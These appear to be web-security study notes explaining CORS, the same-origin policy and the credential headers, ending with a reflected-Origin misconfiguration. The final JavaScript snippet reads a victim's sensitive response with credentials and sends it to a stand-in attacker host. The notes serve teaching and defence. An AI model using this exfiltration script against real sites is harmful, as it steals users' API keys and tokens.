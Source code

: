 ## What is CORS (cross-origin resource sharing)?

- browser mechanism which enables controlled access to resources located outside of a given domain
- extends and adds flexibility to the same-origin policy (SOP)
- not a protection against CSRF
- provides potential for cross-domain attacks

## SOP (same-origin policy)

- web browser security mechanism that aims to prevent websites from attacking each other
- restricts scripts on one origin from accessing data from another origin
- origin consists of a URL scheme, domain and port number

eg - `http://normal-website.com/example/example.html`

- `http` - scheme
- `normal-website.com` - domain
- with port 80

| URL accessed                            | Access Permitted?                 |
| --------------------------------------- | --------------------------------- |
| http://normal-website.com/example/      | Yes: same scheme, domain and port |
| http://normal-website.com/example2/     | Yes: same scheme, domain and port |
| https://normal-website.com/example      | No: different scheme and port     |
| http://en.normal-website.com/example    | No: different domain              |
| http://www.normal-website.com/example/  | No: different domain              |
| http://normal-website.com:8080/example/ | No: different port                |

## Relaxation of the same-origin policy

- SOP is very restrictive
- many websites interactive with subdomains or third-party sites in a way that requires full cross-origin access
- a controlled relaxation of the SOP is possible using cross-origin resource sharing (CORS)

## Access-Contorl-Allow-Origin

- `Access-Control-Allow-Origin` header - included in the `response` from one website to a request originating from another website and identifies the permitted origin of the request
- web browser compares the `Access-Control-Allow-Origin` with the requesting website's origin and permits access to the response if they match

eg - suppose a website with origin `normal-website.com` causes the following cross-domain request:

```
GET /data HTTP/1.1
Host: robust-website.com
Origin: https://normal-website.com
```

The server on `robust-website.com` returns the following response:

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
```

The specification of `Access-Control-Allow-Origin` allows for multiple origins or the vaule `null`, or wildcard `*`.

## Access-Control-Allow-Credentials

- default behavior of cross-origin resource requests is for requests to be passed without credentials like cookies and the Authorization header
- but can permit reading of the response when credentials are passed to it by setting the CORS Access-Control-Allow-Credentials header to true.

```
GET /data HTTP/1.1
Host: robust-website.com
...
Origin: https://normal-website.com
Cookie: JSESSIONID=<value>
```

Response to the request is

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Credentials: true
```

The Header Access-Control-Allow-Origin supports wildcards.
eg - `Access-Control-Allow-Origin: *`

But you cannot combine the wildcard with the cross-origin trasfer of credentials.

## Vulnerablities arising from CORS

### Server-generated ACAO header from client-specified Origin header

For example, consider an application that receives the following request:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

It responds with :

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

These headers state that access is allowed from the requesting domain and that the cross-origin requests can include cookies.
If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open("get", "https://vulnerable-website.com/sensitive-victim-data", true);
req.withCredentials = true;
req.send();

function reqListener() {
  location = "//malicious-website.com/log?key=" + this.responseText;
}
```
